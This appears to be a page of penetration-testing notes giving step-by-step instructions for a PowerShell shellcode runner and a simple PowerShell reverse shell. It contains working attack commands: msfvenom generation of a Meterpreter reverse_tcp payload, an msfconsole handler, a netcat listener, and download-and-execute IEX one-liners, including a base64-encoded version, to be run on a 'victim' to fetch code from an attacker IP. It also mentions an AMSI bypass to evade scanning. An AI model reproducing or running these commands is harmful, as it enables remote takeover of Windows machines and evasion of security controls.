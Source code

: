 # Powershell Shellcode Runner

<details>

<summary>Powershell Shellcode Runner</summary>

* Download all files from [https://github.com/n000b3r/PrivEsc/tree/main/Windows/ps\_shellcode\_runner](https://github.com/n000b3r/PrivEsc/tree/main/Windows/ps_shellcode_runner)

- Change Line 1 of `runall.ps1` to Kali's IP

* Host Python Webserver on Kali&#x20;
* Generate the following payload & put in line 44 of shellcoderunner.ps1

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 EXITFUNC=thread -f powershell
```

* Start Msfconsole listener

```bash
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 443; set ExitOnSession false; exploit -j"
```

* Run following in victim

```powershell
#In CMD.exe
powershell -c IEX (New-Object Net.WebClient).DownloadString('http://192.168.61.128/runall.ps1')

#In Powershell.exe
IEX (New-Object Net.WebClient).DownloadString('http://192.168.61.128/runall.ps1')

#Base64 encoded powershell
IEX (New-Object Net.WebClient).DownloadString('http://192.168.61.128/runall.ps1') save to to_encode.txt
python b64_encode.py to_encode.txt
powershell -e SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQANQAuADEAOQA3AC8AcgB1AG4AYQBsAGwALgBwAHMAMQAnACkA
```

</details>

<details>

<summary>Simple Powershell Reverse shell with AMSI Bypass (<a href="https://github.com/n000b3r/PrivEsc/blob/main/Windows/ps_shellcode_runner/simple_ps_revshell.ps1">simple_ps_revshell.ps1</a>)</summary>

* Download all files from [https://github.com/n000b3r/PrivEsc/tree/main/Windows/simple\_ps\_revshell](https://github.com/n000b3r/PrivEsc/tree/main/Windows/simple_ps_revshell)

- Change Line 1 in runall.ps1 to Kali's IP
- Change IP and port in simple\_ps\_revshell.ps1

```powershell
# Start nc listener
    nc -lvp 443

# In victim's cmd shell
    powershell -c IEX (New-Object Net.WebClient).DownloadString('http://192.168.61.128/runall.ps1')

# OR encoded powershell command
    IEX (New-Object Net.WebClient).DownloadString('http://192.168.61.128/runall.ps1') save to to_encode.txt 
    python b64_encode.py to_encode.txt 
    powershell -e <b64 payload>
```

</details>



